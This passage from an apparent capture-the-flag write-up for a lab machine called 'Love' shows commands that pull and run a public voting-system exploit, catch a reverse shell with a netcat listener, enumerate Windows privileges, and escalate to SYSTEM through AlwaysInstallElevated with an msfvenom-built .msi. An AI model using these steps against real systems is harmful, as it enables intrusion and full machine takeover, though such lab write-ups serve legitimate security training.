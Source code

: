 ```bash
searchsploit voting system
searchsploit -m php/webapps/49445.py

mv 49445.py voting_system.py
python3 voting_system.py

rlwrap nc -nlvp 443
python3 voting_system.py
```

```powershell
whoami              # love\phoebe
hostname
whoami /priv
whoami /all
net user phoebe
systeminfo
```

<br/>
<img src="{{ site.img_path }}/love_writeup/Love_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_29.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/love_writeup/Love_31.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

After not finding much in the system, I am going to upload the **[winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS ){:target="_blank"}** script from **Carlos Polop** that automates the search for possible attack vectors, to root the box. I transfer it to the victim machine and run it, after a while and analyzing the result, I find a vulnerability, having **AlwaysInstallElevated** enabled can result in a **Privilege Escalation**, as indicated by **[HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated){:target="_blank"}**. As the user has the permissions to install or run **`.msi`** files, I can create a binary with this extension and send me a **Reverse Shell**, using `msfvenom`. I transfer the malicious binary and I can get the shell as the **NT AUTHORITY\SYSTEM** user.
